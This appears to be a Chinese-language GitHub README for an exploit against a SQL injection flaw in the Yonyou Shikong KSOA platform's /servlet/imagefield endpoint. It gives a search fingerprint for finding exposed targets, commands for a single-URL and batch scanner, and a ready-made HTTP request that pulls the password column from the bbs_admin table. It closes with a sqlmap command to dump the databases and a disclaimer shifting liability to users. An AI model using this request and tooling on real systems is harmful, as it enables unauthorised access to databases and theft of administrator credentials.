



# 用友时空KSOA平台 SQL注入

用友时空KSOA平台 /servlet/imagefield 存在SQL注入漏洞，攻击者可利用该漏洞获取数据库敏感信息。


## 指纹

app="用友-时空KSOA"

## 工具利用

python3 KSOAimagefield_sqlscan.py -u http://127.0.0.1:1111 单个url测试

python3 KSOAimagefield_sqlscan.py -f url.txt 批量检测

扫描结束后会在当前目录生成存在漏洞url的vuln.txt

poc：





## exp：

将数据包保存为txt用sqlmap可得到数据
```
GET /servlet/imagefield?key=readimage&sImgname=password&sTablename=bbs_admin&sKeyname=id&sKeyvalue=1* HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.969.139 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close

```

sqlmap -r sql.txt --dbs


## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
